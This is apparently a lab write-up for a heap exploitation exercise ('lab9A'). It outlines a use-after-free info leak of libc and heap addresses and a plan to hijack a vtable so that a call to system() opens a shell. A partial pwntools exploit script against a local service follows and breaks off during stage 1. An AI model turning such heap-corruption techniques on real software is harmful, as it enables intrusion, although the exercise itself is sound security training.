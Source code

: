 	```

**_Stage 1, Info leak_**

1. Aloocate 3 sets, set 0, set 1 ,set 2 with `set_data` points to chunk which is as big as 32, it is enough to fit into `unsorted bin`.
2. Free 3 sets in reverse.
3. Allocate set 0 again.
4. UAF, fd of set 0 points to `main_arena.top`, bk of set 0 points to chunk allocated to set 0 at step 1.
5. Leak base address of libc and heap.

**_Stage 2, system()_**

1. Create vtable.
2. Write vtable to vptr of set 1.
3. Write ";sh " to `m_size`, 'cause `this` pointer will be the first parameter of system().
4. Make the call.


**_exploit.py_**
```python
#!/usr/bin/env python2

from pwn import *

#
# setup context
#
#context.log_level = 'debug'

#
# start process
#
#r = process('/levels/lab09/lab9A')
r = remote('127.0.0.1', 9941)

def alloc_set(i, size):
    r.sendline("1")
    r.sendline(str(i))
    r.sendline(str(size))

def del_set(i):
    r.sendline("4")
    r.sendline(str(i))

#
# Stage 1, Info leak
#


main_arena_top_offset = 0x1aa450
system_offset         = 0x40190
bin_sh_offset         = 0x160a24

print "====== Stage 1, Info leak ======"
print "[+] Allocate set 0, 1, 2"
i = 0
while i < 3:
    alloc_set(i, 32) 
    i = i + 1

r.recvuntil("choice: ")
print "[+] Free set 2, 1, 0"
# delete in reverse to keep chunk order in fastbins
del_set(2)
```